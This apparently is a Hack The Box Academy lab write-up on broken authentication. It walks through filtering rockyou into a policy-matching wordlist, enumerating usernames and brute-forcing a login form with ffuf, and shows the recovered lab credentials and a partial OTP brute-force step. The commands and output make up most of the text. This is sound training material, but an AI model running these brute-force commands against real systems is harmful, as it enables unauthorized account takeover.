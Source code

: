 # SCENARIO:
You are tasked to perform a security assement of a client web app, the client has not provided u with credentials.

- IP: 94.237.58.171:46309

Password policy:
Password does not meet our password policy:
Contains at least one digit
Contains at least one lower-case character
Contains at least one upper-case character
Contains NO special characters
Is exactly 12 characters long

Create a wordlist with this policy:
```sh
grep -E '^[A-Za-z0-9]{12}$' Dictionaries/rockyou.txt | grep -E '[0-9]' | grep -E '[a-z]' | grep -E '[A-Z]' > filtered_passwords.txt
```
We must to enumerate the user for get the access:
```sh
ffuf -w Dictionaries/SecLists/Passwords/xato-net-10-million-passwords.txt:USER -u http://94.237.58.171:46309/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=3p6q29nb71ujqmh9c8bkp1nck8" -d "username=USER&password=dsfsd" -fr "Unknown username or password." -o userenum.txt -of json

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.58.171:46309/login.php
 :: Wordlist         : USER: /home/Anchovy/Dictionaries/SecLists/Passwords/xato-net-10-million-passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=3p6q29nb71ujqmh9c8bkp1nck8
 :: Data             : username=USER&password=dsfsd
 :: Output file      : userenum.txt
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

test                    [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 91ms]
gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 44ms]
Test                    [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 110ms]
TEST                    [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 94ms]

# Now we can use the wordlist that we generate:
fuf -w filtered_passwords.txt -u http://94.237.58.171:46309/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fs 4344 -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.58.171:46309/login.php
 :: Wordlist         : FUZZ: /home/Anchovy/filtered_passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 4344
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
```

> [!IMPORTANT]
> USER: gladys
> PASS: dWinaldasD13

Now generate a wordlist for the otp:
`seq -W 0 100000 > num_word`
Is not work after that we must intererp the request:
1. ![login](../Img/skill-bruteauth.png)
2. ![pass](../Img/PAss-brokenacess.png)
https://academy.hackthebox.com/achievement/349590/80

